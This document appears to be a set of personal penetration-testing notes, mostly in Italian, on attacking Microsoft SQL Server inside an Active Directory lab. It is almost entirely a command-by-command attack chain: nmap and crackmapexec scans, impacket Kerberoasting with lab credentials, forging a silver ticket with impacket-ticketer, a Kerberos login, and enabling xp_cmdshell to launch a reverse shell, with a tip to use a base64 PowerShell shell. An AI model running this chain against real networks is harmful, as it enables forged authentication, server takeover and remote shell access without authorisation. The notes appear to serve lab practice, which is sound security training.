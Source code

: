 ### **ENUM MSSQL**
Vediamo quali server hanno MSSQL attivo
```bash
nmap -p 1433 -sV -sC <RANGE IP>
```
![[Pasted image 20230830110346.png]]
![[Pasted image 20230830110835.png]]
Controlliamo se ci sono utenti con SPN sui server MSSQL trovati
```bash
impacket-GetUserSPNs <DOMAIN MACCHINA>/<USER>:<PASSWD>
```
![[Pasted image 20230830104754.png]]
```bash
IMPACKET-GetUserSPNS -target-domain <DOMAIN> north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830110943.png]]
è possibile anche usare crackmapexec per enumerare
```bash
crackmapexec mssql 192.168.56.22-23
```
![[Pasted image 20230830151845.png]]

### **SILVER TICKET ATTACK**
To perform the silver ticket attack against the SQL service we need three things: 	
1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID. 
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
3. The SPN that the SqlSvc account is using.
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip dc1.scrm.local -no-pass -request
```

Possiamo quindi ora ottenere il silver ticket
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash <sqlsvc NTLM hash> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local administrator
```
![[Pasted image 20230621120729.png]]
exporta il ticket
```bash
export KRB5CCNAME=/tmp/administrator.ccache
```
se funziona tutto con klist dovresti vedere ciò
![[Pasted image 20230621121052.png]]
connettiti con 
```bash
impacket-mssqlclient -k <macchina>
```
### **RCE**
```bash
enable_xp_cmdshell;
```

```bash
xp_cmdshell <REV SHELL>
```
consiglio la powershell #3 (base64)
